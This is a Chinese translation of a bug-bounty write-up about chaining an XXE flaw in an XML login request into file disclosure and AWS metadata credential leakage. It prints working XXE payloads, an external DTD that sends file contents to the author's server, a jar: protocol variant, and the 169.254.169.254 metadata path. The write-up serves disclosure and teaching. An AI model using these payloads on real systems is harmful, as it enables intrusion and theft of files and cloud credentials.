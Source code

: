 > 原文链接: https://www.anquanke.com//post/id/234875 


# 从XXE到AWS元数据泄露


                                阅读量   
                                **237770**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者AlMadjus，文章来源：almadj.us
                                <br>原文地址：[https://almadj.us/infosec/xxe-to-aws-metadata-disclosure/﻿](https://almadj.us/infosec/xxe-to-aws-metadata-disclosure/%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t01d6993822de1fa879.png)](https://p0.ssl.qhimg.com/t01d6993822de1fa879.png)



最近，我在HackerOne上的一个私人漏洞计划上发现了一个关键漏洞，让我可以获得他们的亚马逊网络服务根密钥。正因为如此，该漏洞被评为10.0级危急，是最高级别的。

我用我的自定义词表通过[ffuf](https://github.com/ffuf/ffuf)运行了这几个子域名并查看其结果。其中一个子域名，最初只是呈现一个空白页，当我进入`//foo`路由时，有一个有趣的页面；注意2个斜杠。在10分钟内，我就发现这里有一个XSS，这个URL被映射在一个啰嗦的错误页面中，我得到了反射型XSS，查询参数中有一个有效载荷。不过后来发现该漏洞是重复的。

几天后，我回来了，想对这个子域进行更深入的研究。在GitHub上，我找到了这个子域的测试凭证和登录有效载荷的仓库，并决定对它进行测试。如果没有GitHub的这个泄漏，我永远不会知道这里有一个登录功能，因为它在任何地方都没有呈现。路径相当晦涩，没有被我的爆破词库收录。

我能够用测试凭证登录，并得到一个允许我上传文件的令牌。由于POST有效载荷是XML，我决定通过测试XXE DTD（XML eXternal Entity Document Type Declaration）来深入测试。

我唯一能调用DTD的地方是在密码字段，用户名是由URL路径定义的。我使用了一个基本的POST有效载荷：

```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE passwd [&lt;!ELEMENT passwd ANY&gt;
&lt;!ENTITY xxe SYSTEM "http://webhook.site/foo" &gt;]&gt; 
...
&lt;passwd&gt;&amp;xxe;&lt;/passwd&gt;
```

POST数据发送过去后，我的`webhook.site`接收到服务请求。这样我就知道DTD已经启用了。我还试着在web服务器上查询一个文件，但没有成功。

下一步是尝试检索一个外部DTD。我把`http://webhook.site/foo` 改成了一个虚拟的自托管 DTD，并观察到 Web 应用程序获取了这个文件。

现在我已经拥有了所有需要的东西，可以尝试读取web应用服务器上的文件，并将其内容发送到我自己的服务器上。我发送了一个这样的有效载荷：

```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE passwd [!ENTITY % file SYSTEM "file:///etc/passwd"&gt; [&lt;!ENTITY % xxe SYSTEM "http://myserver.com/pwn.dtd"&gt; %xxe; ]&gt; 
...
&lt;passwd&gt;&amp;send;&lt;/passwd&gt;
```

而下面自带的DTD为pwn.dtd：

```
&lt;!ENTITY % all "&lt;!ENTITY send SYSTEM 'http://myserver.com/?data=%file;'&gt;"&gt; %all;
```

然而，它并没有像预期的那样工作。虽然Web应用程序确实获取了我的DTD，但我从来没有得到后续的`?data`请求，而是在应用程序中得到了一个错误信息。原来是`/etc/passwd`中的特殊字符破坏了GET请求。

在检查我自己的Linux系统有无特殊字符的单行文件时，我发现了`/etc/hostname`，我就能读取它的内容了。我仍然不满意这样的影响，但我希望能够读取系统中的任何文件，所以我试着通过FTP在应用程序响应中进行外链。不过这些都没有用，所以我把这个漏洞报告给HackerOne，说是一个影响很大的XXE DTD本地文件包含（LFI）。

第二天，我一直在猜测这个漏洞。我对影响并不满意，想试着找一些方法来排查任意文件。分配给我的报告的HackerOne triager希望我也尝试着去排查另一个文件，不过他们对这是一个单行文件也没有意见。

我和[Dee-see](https://twitter.com/dee__see)（伟大的黑客！）聊了聊，他给我发了一个使用`jar:`协议提取文件的链接：<br>[https://www.blackhat.com/docs/us-15/materials/us-15-Wang-FileCry-The-New-Age-Of-XXE-java-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Wang-FileCry-The-New-Age-Of-XXE-java-wp.pdf)

> 我翻译过这篇blackhat的议会主题：[https://www.anquanke.com/post/id/231472](https://www.anquanke.com/post/id/231472)

从上面的链接中改编了DTD文件内容，我又试着将`/etc/passwd`导出。

```
&lt;!ENTITY % all "&lt;!ENTITY send SYSTEM 'jar:%file;/myserver.com!/'&gt;"&gt; %all;
```

而且它真的成功了! 虽然不是作为一个出站的LFI，我能够在服务器的响应中读取整个`/etc/passwd`！我向HackerOne报告了这一情况，他们将我的报告归类为高危害等级。关于`jar:`协议的更多信息，请看[这个](https://gosecure.github.io/xxe-workshop/#7)。它实际上是用来读取`.zip`或`.jar`文件中的文件。不过不知怎么的，它破坏了网络应用，让我可以读取任何文件的内容。

不过我对我的报告还是不完全满意，我一直在想我也许能把这个问题提升到一个更严重的问题。我试着扫描服务器的开放端口，想着也许我可以得到SSH密钥并登录，但只有80和443端口是开放的。然后我问HackerOne是否允许我在服务器上尝试更深的测试，他们同意了。

通过只在文件实体中提供`file:///`，我能够读取一个目录的内容，但我无法读取`/proc/self/environ`，它可能存储了AWS的元数据；同样一些特殊字符破坏了流程。于是我想到把LFI变成SSRF（Server Side Request Forgery），查询典型的AWS元数据端点`http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE`。

当然我不知道`user_role`的值，但通过访问`http://169.254.169.254/latest/meta-data/iam/security-credentials/`，web应用程序很好心地在错误信息中向我透露了他们的信息!

我在HackerOne上向程序报告了这件事，他们将严重程度改为10.0的评价。后来我获得了2000美元的赏金。

我从这件事中学到了什么？总是尝试深入挖掘，不要满足于报告一些事情，除非你已经尝试了一切来提高严重性。当然，如果有疑问，要征求许可。我不喜欢在没有明确许可的情况下撸穿公司的生产服务器，但他们很理解我，并允许我继续进行，只要我不改变或访问敏感数据。
